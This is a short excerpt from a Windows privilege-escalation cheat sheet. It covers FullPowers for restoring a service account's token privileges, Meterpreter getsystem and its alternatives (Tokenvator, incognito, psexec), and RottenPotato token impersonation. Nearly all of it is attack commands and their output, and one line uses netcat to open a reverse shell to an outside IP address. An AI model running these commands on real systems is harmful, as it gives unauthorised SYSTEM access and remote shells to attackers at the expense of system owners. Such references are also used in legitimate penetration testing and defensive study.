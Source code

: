 ### Restore A Service Account's Privileges

> This tool should be executed as LOCAL SERVICE or NETWORK SERVICE only.

```powershell
# https://github.com/itm4n/FullPowers

c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

### Meterpreter getsystem and alternatives

```powershell
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```

### RottenPotato (Token Impersonation)

* Binary available at : https://github.com/foxglovesec/RottenPotato
* Binary available at : https://github.com/breenmachine/RottenPotatoNG

```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```
